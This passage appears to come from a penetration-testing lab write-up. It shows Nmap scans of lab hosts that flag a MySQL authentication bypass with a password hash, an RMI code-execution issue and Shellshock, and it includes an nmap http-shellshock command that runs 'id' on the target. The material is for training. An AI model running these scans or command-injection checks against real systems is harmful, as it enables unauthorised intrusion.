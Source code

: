 ```
|   
|     root:*66251D5A2791AD1B9D7BAA7F76F0F14E1BFF061D
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-2122
|       http://seclists.org/oss-sec/2012/q2/493
|_      https://community.rapid7.com/community/metasploit/blog/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql
MAC Address: 02:42:C0:9C:BE:05 (Unknown)

Nmap scan report for demo4.ine.local (192.156.190.6) ←
Host is up (0.0000090s latency).
rDNS record for 192.156.190.6: target-4
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http ←
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
MAC Address: 02:42:C0:9C:BE:06 (Unknown)

Nmap done: 3 IP addresses (3 hosts up) scanned in 31.36 seconds
```

The host `demo2.ine.local` is vulnerable to RMI registry default configuration remote code execution vulnerability. Then, the host `demo3.ine.local` is vulnerable to authentication bypass in the MySQL server.

This confirms that we have found two more hosts vulnerable to serious vulnerability.

But, we can observe, for the host `demo4.ine.local`, we haven't received any exciting output. However, we can notice that port 80 is open. 

**Step 3**.

`nmap -sV demo4.ine.local -p80`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 20:19 IST
Nmap scan report for demo4.ine.local (192.156.190.6)
Host is up (0.000053s latency).
rDNS record for 192.156.190.6: target-4

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
MAC Address: 02:42:C0:9C:BE:06 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.64 seconds
```

`nmap -sS demo4.ine.local -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd=id`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 20:33 IST
Nmap scan report for demo4.ine.local (192.156.190.6)
Host is up (0.000057s latency).
rDNS record for 192.156.190.6: target-4

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability ←
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
```